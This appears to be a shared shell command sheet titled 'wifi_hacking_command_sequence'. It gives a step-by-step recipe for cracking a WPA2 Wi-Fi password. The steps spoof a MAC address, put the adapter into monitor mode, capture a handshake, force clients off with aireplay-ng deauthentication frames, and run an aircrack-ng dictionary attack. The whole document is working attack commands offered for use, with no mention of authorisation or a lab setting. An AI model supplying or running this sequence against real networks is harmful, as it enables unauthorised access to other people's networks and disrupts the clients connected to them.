 # wifi_hacking_command_sequence-
# Execute dictionary attack to Wi-Fi Network
# 
# 


# List interfaces (sh)
ifconfig

# Disable interface to change the MAC address
ifconfig wlan0 down

# Spoof MAC address to 00:11:22:33:44:55
macchanger -m 00:11:22:33:44:55 wlan0

# Enable interface again :)
ifconfig wlan0 up

# Kill any services 
airmon-ng check kill

# Start interface in monitor mode
airmon-ng start wlan0

# Now from the previous step copy the name of the interface in monitor mode
# Example of output previous step: monitor mode vif enabled for [phy]wlan0 on [phy0]wlan0mon
# Name = wlan0mon

# Dump available Wi-Fi networks
airodump-ng wlan0mon

# The previous step should output a table like the following:

#|BSSID             |PWR |Beacons | #Data | #/s |CH |MB   |ENC  |CIPHER |AUTH  | ESSID            |
#|E0:98:61:47:BD:E2 |-34 |38      | 0     | 0   |1  |54e. |WPA2 |CCMP   |PSK   | The network name |

# You should copy this information as you will need the information of the network to execute some
# commands that require those values as arguments

# Copy WPA handshake with the following command
airodump-ng -c [channel] --bssid [BSSID] -w [path/to/folder/output] [interface-name-in-monitor-mode]
# Example: airodump-ng -c 1 --bssid E0:98:61:47:BD:E2 -w /root/hacking/ wlan0mon
# Note: this process can take a lot of time, so be patient
# Once the following message appears:
# WPA Handshake [BSSID OF THE DEVICE, EXAMPLE E0:98:61:47:BD:E2]
# You can proceed with the next step and stop the current command as it will still running
# The .cap files should be now in the [path/to/folder/output] 


# Inject frames to Ten authentication packages
# Recommend numberofpackages = 10
aireplay-ng -0 [number-of-packages] -a [BSSID] [interface-name-in-monitor-mode]
# Example: aireplay-ng -0 10 -a E0:98:61:47:BD:E2 wlan0mon

# Start dictionary attack using the WPA Handshake previously downloaded and 

aircrack-ng -a2 -b [BSSID] -w [path to dictionary] [path to .cap files of handshake]
# Example: aircrack-ng -a2 -b E0:98:61:47:BD:E2 -w /root/hacking/passwords.txt /root/hacking/*.cap

# That's all !


